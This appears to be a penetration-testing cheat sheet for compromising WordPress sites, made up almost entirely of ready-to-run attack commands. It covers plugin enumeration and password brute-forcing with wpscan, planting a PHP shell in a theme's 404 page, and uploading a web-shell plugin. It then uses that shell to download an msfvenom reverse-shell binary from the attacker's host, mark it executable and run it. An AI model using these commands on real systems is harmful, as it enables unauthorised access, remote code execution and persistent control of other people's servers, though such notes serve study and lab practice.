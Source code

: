 # WordPress
------

Enumerate plugins faster
```bash
wpscan --url http://192.168.143.105/ --plugins-detection aggressive -e ap -t 50
```


Bruteforce using wpscan:
```bash
wpscan --url http://dc-2/ -U users -P wordlist
```


Uploading a php shell on  wordpress theme's 404 page and accessing the page:
```txt
/wp-content/themes/twentytwenty/404.php
```



If we have the option to upload plugins:

Get the plugin from `/opt/SecLists/Web-Shells/WordPress` , zip the plugin.

Upload the plugin and activate it via the admin console.

Use cURL to execute commands from the uploaded plugin:
```bash
curl "http://10.11.1.251/wp/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami"
```

Now we can generate a reverse shell payload as file type elf, upload it and execute it.

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.133 LPORT=9999 -f elf > shell.elf
```

```bash
curl "http://10.11.1.251/wp/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://192.168.119.133:443/shell.elf

cmd=chmod%20%2Bx%20shell.elf

cmd=./shell.elf
```